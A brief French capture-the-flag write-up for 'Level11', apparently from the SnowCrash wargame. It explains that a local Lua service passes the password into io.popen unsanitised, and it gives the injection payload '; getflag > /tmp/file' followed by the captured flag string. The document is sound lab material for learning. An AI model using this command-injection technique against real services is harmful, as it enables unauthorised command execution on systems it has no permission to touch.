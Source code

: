 ## Level11:

sur le port 5151 un serveur est lance donc : 
```nc 127.0.0.1 5151```
```  prog = io.popen("echo "..pass.." | sha1sum", "r")```

Ici le mot de passe va etre envoye dans io.popen, donc si une commande comme ```; ls``` est envoye, la commande ls  va etre exec.  
Donc il suffit de faire un ``` ; getflag > /tmp/file``` pour exec la commande. 

fa6v5ateaw21peobuub8ipe6s

